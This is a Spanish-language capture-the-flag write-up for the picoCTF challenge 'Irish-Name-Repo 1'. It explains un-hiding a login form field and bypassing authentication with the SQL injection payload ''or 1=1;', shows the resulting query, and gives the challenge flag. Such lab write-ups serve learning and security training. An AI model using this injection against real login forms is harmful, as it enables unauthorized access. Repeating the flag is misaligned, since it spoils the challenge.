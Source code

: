 # Irish-Name-Repo 1


## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Pistas
- There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.

## Solución

- Entramos a la pagina web: [link](https://jupiter.challenges.picoctf.org/problem/33850/)  
- Se intenta entrar con un usuario y una contraseña cualquiera pero nos Manda un "Error de inicio de sesion", lo cual quiere decir no podemos entrar a encntrar la bandera.
- Para poder encontrar la bandera hacemos uso de SQL Injection.
- Dando click derecho en la pagina web seleccionamos la opción "Inspeccionar", nos abre el código funte donde borramos el hidden de una linea del código fuente esto nos permite poner un 1 en el login para poder entrar.
- Despues de haber ingresado el 1 procedemos a utilizar la Inyección "'or 1=1;" como usuario para poder encontrar la contraseña:
``` bash
username: 'or 1=1;
password: karen
SQL query: SELECT * FROM users WHERE name=''or 1=1;' AND password='karen'

Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```

## Bandera
picoCTF{s0m3_SQL_f8adf3fb}

## Notas adicionales
| Concepto | Descripción |
|------ | -------------- |
| 1=1 | El propósito es crear una instrucción SQL para seleccionar un usuario, con una identificación de usuario dada. Si no hay nada que impida que un usuario ingrese una entrada "incorrecta", el usuario puede ingresar alguna entrada "inteligente" ||


## Referencias
- [SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)




